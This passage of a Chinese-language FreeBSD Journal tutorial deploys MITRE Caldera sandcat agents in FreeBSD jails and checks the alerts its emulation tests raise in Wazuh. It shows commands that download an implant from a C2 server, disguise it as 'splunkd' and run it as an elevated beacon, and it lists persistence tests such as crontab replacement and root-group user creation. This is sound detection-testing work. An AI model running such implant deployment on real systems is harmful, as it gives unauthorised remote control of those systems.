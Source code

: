 ![image](https://github.com/Canvis-Me/freebsd-journal-cn/assets/55122738/89a8df9a-ea9f-4297-9fc9-2ee0aab53a70)

```
# appjail cmd jexec agent01 sh -c ‘curl -k -s -X POST -H “file:sandcat.go” -H
“platform:freebsd” https://11.1.0.10:8443/file/download > /root/splunkd’
# appjail cmd jexec agent01 chmod 750 /root/splunkd
# appjail cmd jexec agent01 ./splunkd -server https://11.1.0.10:8443 -group red -v

Starting sandcat in verbose mode.
[*] No tunnel protocol specified. Skipping tunnel setup.
[*] Attempting to set channel HTTP
Beacon API=/beacon
[*] Set communication channel to HTTP
initial delay=0
server=https://11.1.0.10:8443
upstream dest addr=https://11.1.0.10:8443
group=red
privilege=Elevated
allow local p2p receivers=false
beacon channel=HTTP
available data encoders=base64, plain-text
[+] Beacon (HTTP): ALIVE
```

在不同的终端会话中，为每个代理重复前面的命令，只更改 jail 的名称（agent01、agent02、agent03、agent04 和 agent05）。完成这些任务后，我们将在 MITRE Caldera Agents 窗口中看到可用代理的列表。

![image](https://github.com/Canvis-Me/freebsd-journal-cn/assets/55122738/b79764a5-9fdd-4958-b280-bd8ebf284c46)

添加（潜在的链接按钮）并在不同的代理上运行一些模拟测试。以下四个测试将在 wazuh-manager 中生成警报：
1) Cron – 用引用的文件替换 crontab（T1053.003）
2) 使用 `root` GID 在 FreeBSD 中创建一个新用户（T1136.001）
3) 在 FreeBSD 系统上创建一个用户帐户（T1136.001）
4) 创建本地帐户（FreeBSD）（T1078.003）

![image](https://github.com/Canvis-Me/freebsd-journal-cn/assets/55122738/924b5db2-9145-4dff-8f28-e240ae93e37d)

完成模拟操作后，我们在 wazuh-dashboard 控制台中验证每个测试生成的警报。

![image](https://github.com/Canvis-Me/freebsd-journal-cn/assets/55122738/ca6fb0fd-64c4-4730-a532-2d54c5753dad)

![image](https://github.com/Canvis-Me/freebsd-journal-cn/assets/55122738/620548ed-980e-49d6-acd9-a73bd9a6f1e5)

![image](https://github.com/Canvis-Me/freebsd-journal-cn/assets/55122738/77e60ce8-b4f7-4477-a401-1190cc47a2a7)

![image](https://github.com/Canvis-Me/freebsd-journal-cn/assets/55122738/7d0c2a6d-e0d2-4c9e-9a93-d78a7199bf8c)

## 结论

Wazuh 和 MITRE Caldera 提供了可定制的工具，以适应安全信息或网络安全需求。本文展示了包含在 Wazuh SIEM 和 MITRE Caldera 中的部分功能。如果您想了解更多关于这些工具的信息，Wazuh 项目和 MITRE Caldera 项目提供了出色的文档（<https://documentation.wazuh.com/current/index.html>）和（<https://caldera.readthedocs.io/en/latest/>），以及强大的社区支持。

最后，AppJail 帮助快速将本文中使用的工具部署到 jail 容器中。

---

ALONSO CÁRDENAS 是 FreeBSD 项目的 ports 提交者。他最近专注于提升 FreeBSD 作为信息安全有用平台的可见性。他是秘鲁的信息安全和网络安全顾问。
